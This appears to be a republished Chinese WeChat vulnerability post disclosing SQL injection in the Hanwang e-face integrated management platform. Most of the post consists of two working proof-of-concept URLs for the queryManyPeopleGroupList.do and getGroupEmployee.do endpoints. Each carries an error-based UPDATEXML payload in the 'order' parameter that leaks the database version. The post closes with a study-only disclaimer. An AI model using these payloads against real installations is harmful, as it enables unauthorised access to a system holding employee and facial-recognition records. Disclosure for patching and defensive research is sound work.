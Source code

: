 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMTg1ODAwNw==&mid=2247500929&idx=1&sn=dee2bdaa182554616ea85ceef4775672

#  汉王e脸通综合管理平台SQL注入漏洞  
安全透视镜  网络安全透视镜   2025-07-07 13:52  
  
queryManyPeopleGroupList接口SQL注入  
  
POC:  

```
/manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4yghbW9UzIgH1zjlurthTKiaqb6ibicXZcbTrFo4sfYqG0SgeekKxTTDC8jWqibH3Bm1KbMgFSwSAkow/640?wx_fmt=png&from=appmsg "")  
  
  
getGroupEmployee  SQL注入  

```
/manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4yghbW9UzIgH1zjlurthTKQib5vmZYXlPfqr0Io6PEicergFuDtBVW09sjaU4GaZbQPwtUhn0wyFDg/640?wx_fmt=png&from=appmsg "")  
  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
  
